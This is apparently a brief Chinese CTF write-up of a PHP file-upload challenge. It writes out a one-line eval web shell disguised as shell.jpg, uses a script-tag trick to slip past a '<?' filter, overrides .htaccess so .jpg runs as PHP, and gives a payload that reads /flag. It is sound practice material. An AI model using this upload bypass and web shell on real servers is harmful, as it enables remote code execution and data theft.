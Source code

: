 感觉自己的php基本功还不是很够！！！ 先刷php题目吧

先是一个文件上传的界面

上传的数据包如下

```
------WebKitFormBoundaryEgI2BUMgdhNtGji3
Content-Disposition: form-data; name="uploaded"; filename="shell.jpg"
Content-Type: image/jpeg

<script language="php">eval($_POST['shell']);</script>
------WebKitFormBoundaryEgI2BUMgdhNtGji3
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryEgI2BUMgdhNtGji3--
```

这里的filename会被查是不是php 然后Content-Type也会双重判断

第一次知道原来form会自动判断Content-Type的，所以需要饶过一下

然后会检测<?

所以用script绕过

```javascript
<script language="php">eval($_POST['shell']);</script>
```

然后即可成功上传shell.jpg

然后再上传.htaccess覆盖

```
AddType application/x-httpd-php .jpg
```

这个的意思是对着.jpg用php方式解析

然后即可获取flag达到rce

```php
shell=var_dump(file_get_contents("/flag"));
```

php的基本函数也都忘了，php复健